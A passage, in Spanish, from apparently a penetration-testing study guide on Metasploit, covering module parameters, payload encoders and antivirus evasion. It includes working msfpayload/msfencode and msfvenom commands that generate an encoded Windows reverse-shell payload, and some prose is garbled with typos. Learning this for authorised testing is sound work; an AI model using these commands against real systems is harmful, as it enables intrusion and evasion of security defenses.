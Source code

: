 Es el momento de configurar los parámetros para que todo funcione.

RHOSTS = IP máquina victima
RPORT = puerto máquina victima
LHOST = Ip máquina atacante
LPORT = puerto máquina atacante


en caso de querer ver nuestra ip
```
ipconfig
ip a
```
```
run
```
En caso de entrar a un SO que no conocemos cmandos podemos hacer un 
```
help
```
## ENCODERS

Los encoders tienen la asintencia con la compatibilidad de los payloads con diferente proceso de arquitectura mientras ayuda a una evasion de antivirus. Tienen el rol de cambiar el payload y ejecutarlo en diferentes sistemas operativos y arquitecturas. Como:

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/f17dad7c-c39b-4f46-a1b6-e140fda51071)

Ellos necesitan remover como caracteres malos del payload. No solo codifica tambien hace que el formato que utiliza y ayuda a que el AV no detecte. Sin embargo el uso de encoder no hace que estrictamente evada el anti virus, los IPS/IDS manofactura para improvisar como funciona la protección de software con firmas en malware y virus.

SGN es uno de los encoders esquemas mas utilizados hoy en dia porque es muy difícil de detectar estos payloads codifican a un mecanismo universal indetectable. Sin embargo estas metodologias exploran evadir protección de los sistemas.

### SELECCIONAR UN ENCODER

msfpayload y msfencode las dos localizadas en /usr/share/framework2/

Si nosotros queremos crear nuestro propio payload utilizaremos "msfpayload" pero cuando queremos codificar para la arquitectura del OS utilizaremos "msfencode". 

```
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

Hoy en dia con la misma herramienta de "msfvenos" se puede hacer todo de una:
```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```
### GENERAR UN PAYLOAD CODIFICADO
